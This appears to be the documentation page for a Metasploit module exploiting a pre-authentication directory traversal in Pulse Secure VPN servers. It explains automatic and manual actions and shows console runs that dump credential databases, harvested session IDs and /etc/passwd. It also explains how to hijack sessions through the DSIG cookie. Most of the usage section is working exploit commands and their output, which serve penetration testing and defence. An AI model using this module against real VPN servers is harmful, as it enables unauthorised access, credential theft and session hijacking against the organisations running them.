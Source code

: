 ## Introduction

This module exploits a pre-auth directory traversal in the Pulse Secure
VPN server to dump an arbitrary file. Dumped files are stored in loot.

If the `Automatic` action is set, plaintext and hashed credentials, as
well as session IDs, will be dumped. Valid sessions can be hijacked by
setting the `DSIG` browser cookie to a valid session ID.

For the `Manual` action, please specify a file to dump via the `FILE`
option. `/etc/passwd` will be dumped by default. If the `PRINT` option is
set, file contents will be printed to the screen, with any unprintable
characters replaced by a period.

Please see related module exploit/linux/http/pulse_secure_cmd_exec for
a post-auth exploit that can leverage the results from this module.

## Actions

```
Name       Description
----       -----------
Automatic  Dump creds and sessions
Manual     Dump an arbitrary file (FILE option)
```

## Options

### FILE

Set this to the file you want to dump. The default is `/etc/passwd`.
Valid only in manual mode.

### PRINT

Whether to print file contents to the screen. Valid only in manual mode.

## Usage

Dumping creds and sessions in automatic mode:

```
msf auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in automatic mode
[*] Dumping /data/runtime/mtmp/lmdb/dataa/data.mdb
[+] /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[*] Dumping /data/runtime/mtmp/lmdb/randomVal/data.mdb
[*] Parsing session IDs...
[+] Session ID found: df502e6052d9002d8f02160af8bfd055
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: acbef5625
[+] Session ID found: c145e683a
[+] Session ID found: fc6c097dd
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: c145e683a17cfacb72a47eb8b2515c14
[+] Session ID found: a7661751393e16fa253e97bd02dc2a4f
[+] Session ID found: 7e78ab276afea3f00dfa41892c437156c699eff8
[+] /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[*] Dumping /data/runtime/mtmp/system
[+] /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin
[*] Auxiliary module execution completed
msf auxiliary(gather/pulse_secure_file_disclosure) > loot

Loot
====

host         service  type                                        name                                        content                   info                   path
----         -------  ----                                        ----                                        -------                   ----                   ----
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/dataa/data.mdb      application/octet-stream  Plaintext credentials  /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/randomVal/data.mdb  application/octet-stream  Session IDs            /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/system                   application/octet-stream  Hashed credentials     /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin

msf auxiliary(gather/pulse_secure_file_disclosure) >
```

Dumping default `/etc/passwd` in manual mode:

```
msf auxiliary(gather/pulse_secure_file_disclosure) > set action Manual
action => Manual
msf auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in manual mode
[*] Dumping /etc/passwd
root:x:0:0:root:/:/bin/bash
nfast:x:0:0:nfast:/:/bin/bash
bin:x:1:1:bin:/:
nobody:x:99:99:Nobody:/:
dns:x:98:98:DNS:/:
term:x:97:97:Telnet/SSH:/:
web80:x:96:96:Port 80 web:/:
rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
postgres:x:102:102:PostgreSQL User:/:

[+] /Users/wvu/.msf4/loot/20191029222949_default_[redacted]_PulseSecureVPN_073170.bin
[*] Auxiliary module execution completed
msf auxiliary(gather/pulse_secure_file_disclosure) >
```

